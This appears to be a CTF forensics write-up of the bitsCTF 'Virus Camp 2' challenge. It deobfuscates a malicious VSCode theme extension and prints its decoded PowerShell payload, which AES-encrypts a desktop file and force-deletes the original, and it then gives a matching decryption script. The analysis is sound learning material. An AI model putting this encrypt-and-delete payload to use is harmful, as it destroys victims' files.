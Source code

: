 ```yaml
---
title: bitsCTF - Forensics - Virus Camp 2
date: 2025-02-12 12:00:00 +0100
categories: [CTFs, bitsCTF]
tags: [ctfs, bitsCTF, forensics]
description: A light theme with dark intentions.
author: <author_id>

image:
  path: /assets/img/bitsCTF/bitsCTF.jpg
---
```


## Challenge description 

> Can you now get the contents of the flag as well?
>
> *Find the flag.*
{: .prompt-info }

**Flag : BITSCTF{hOpe_yOu_enjOyed_th1s_145e3f1a}**

## Ressources

For this challenge, we will be using the same `.ad1` disk image from the first [Virus Camp](https://emree-1.github.io/posts/bitskrieg-virus-camp1) challenge.

## Tools 

To examine the `.ad1` disk image, we will be using `FTK Imager`. However, the key tool we will need for this challenge is a good understanding of `PowerShell`.

## Walkthrough

### Initial Analysis 

If you recall from the [Virus Camp 1](https://emree-1.github.io/posts/bitskrieg-virus-camp1) challenge, we discovered a flag hidden in a comment within a JavaScript file named `extension.js`. Alice had installed it, believing it was a light theme for VSCode, and we stopped our analysis there. We didn’t look into the functionality of the script in detail at the time, but now it’s time to dive deeper into its core logic!

Upon examining the `extension.js` file, we immediately notice a variable named `scriptContent`. This variable appears to contain base64-encoded data, but attempts to decode it fail. This suggests that some obfuscation techniques have been applied to make it harder to retrieve the original script.

### Deobfuscating `scriptContent`

Fortunately, the deobfuscation logic is present right after the encoded content. It appears that the characters in the string have been reversed—meaning the last character should be the first, the second-to-last should be the second, and so on. To retrieve the original content, we simply need to reverse the string and then decode it from Base64.

Here’s a small Python script to handle the deobfuscation:

```py
import base64

obfuscated = "K0QZjJ3bG1CIlxWaGRXdw5WakASblRX..."
reversed = obfuscated[::-1]
decoded = base64.b64decode(reversed)
result = decoded.decode()
print(result)
```

### Understanding the PowerShell Script

After reversing the string and decoding it from Base64, we obtain a PowerShell script. Let’s analyze its content to understand its purpose.

```powershell
$password = "MyS3cr3tP4ssw0rd"
$salt = [Byte[]](0x01,0x02,0x03,0x04,0x05,0x06,0x07,0x08)
$iterations = 10000
$keySize = 32
$ivSize = 16

$deriveBytes = New-Object System.Security.Cryptography.Rfc2898DeriveBytes($password, $salt, $iterations)
$key = $deriveBytes.GetBytes($keySize)
$iv = $deriveBytes.GetBytes($ivSize)

$inputFile = "C:\\Users\\vboxuser\\Desktop\\flag.png"
$outputFile = "C:\\Users\\vboxuser\\Desktop\\flag.enc"

$aes = [System.Security.Cryptography.Aes]::Create()
$aes.Key = $key
$aes.IV = $iv
$aes.Mode = [System.Security.Cryptography.CipherMode]::CBC
$aes.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7

$encryptor = $aes.CreateEncryptor()

$plainBytes = [System.IO.File]::ReadAllBytes($inputFile)

$outStream = New-Object System.IO.FileStream($outputFile, [System.IO.FileMode]::Create)
$cryptoStream = New-Object System.Security.Cryptography.CryptoStream($outStream, $encryptor, [System.Security.Cryptography.CryptoStreamMode]::Write)

$cryptoStream.Write($plainBytes, 0, $plainBytes.Length)
$cryptoStream.FlushFinalBlock()

$cryptoStream.Close()
$outStream.Close()

Remove-Item $inputFile -Force
```


Here’s a quick breakdown of what this script does:
1. **Setting up encryption parameters**:
   - *Password*: `"MyS3cr3tP4ssw0rd"`.
   - *Salt*: 0x01, `0x02, 0x03, 0x04, 0x05, 0x06, 0x07, 0x08`.
   - *Iterations*: `10,000`.
   - Uses `Rfc2898DeriveBytes()` to derive a key and IV based on the password, salt, and number of iterations.
2. **Configuring AES encryption**: uses AES with the derived key and IV. Operates in `CBC (Cipher Block Chaining)` mode with `PKCS7` padding to encrypt a file.
3. **Reading the input file**: reads `flag.png` from `C:\Users\vboxuser\Desktop\flag.png`.
4. **Encrypting the file**: encrypts the input file using AES.
5. **Saving the encrypted file**: stores the encrypted output as `C:\Users\vboxuser\Desktop\flag.enc`.

From this script, we can infer that Alice originally had a file named `flag.png` on her Desktop. However, when the malicious VSCode extension executed, it encrypted the file and replaced it with `flag.enc`, an encrypted version of the flag.

## Reversing the PowerShell Script

Fortunately for us, the password and salt used to derive the AES key and IV are hardcoded into the script, which allows us to reverse the encryption process.

To recover the original flag, we will:
1. Recreate the AES decryption object using the parameters found in the malicious script.
2. Decrypt flag.enc to restore `flag.png`.

Here’s a PowerShell script to do that:

```powershell
$password = "MyS3cr3tP4ssw0rd"
$salt = [Byte[]](0x01,0x02,0x03,0x04,0x05,0x06,0x07,0x08)
$iterations = 10000
$keySize = 32   
$ivSize = 16 

$deriveBytes = New-Object System.Security.Cryptography.Rfc2898DeriveBytes($password, $salt, $iterations)
$key = $deriveBytes.GetBytes($keySize)
$iv = $deriveBytes.GetBytes($ivSize)

$inputFile = "C:\\Users\\vboxuser\\Desktop\\flag.enc"
$outputFile = "C:\\Users\\vboxuser\\Desktop\\flag.png"

$aes = [System.Security.Cryptography.Aes]::Create()
$aes.Key = $key
$aes.IV = $iv
$aes.Mode = [System.Security.Cryptography.CipherMode]::CBC
$aes.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7

$decryptor = $aes.CreateDecryptor() # Decryptor instead of Encryptor

$inStream = New-Object System.IO.FileStream($inputFile, [System.IO.FileMode]::Open)
$cryptoStream = New-Object System.Security.Cryptography.CryptoStream($inStream, $decryptor, [System.Security.Cryptography.CryptoStreamMode]::Read)

$outStream = New-Object System.IO.FileStream($outputFile, [System.IO.FileMode]::Create)

$buffer = New-Object byte[] 4096
while (($bytesRead = $cryptoStream.Read($buffer, 0, $buffer.Length)) -gt 0) {
    $outStream.Write($buffer, 0, $bytesRead)
}

$cryptoStream.Close()
$outStream.Close()
$inStream.Close()
```

After executing this script, we successfully recover the following image file, which contains the flag:

![...](assets/img/bitsCTF/forensics/virus-camp2/flag.png){: w="400"}

## Conclusion

I wasn’t able to complete the `Virus Camp challenges` during the event, but I kept working on them afterward, and I’m glad I finally managed to solve them. This challenge was a great opportunity to learn more about how malicious actors can infect a system—even through applications that most users would consider trustworthy.

Thank you for reading my write-up! See you in the next one! 

*emree1*
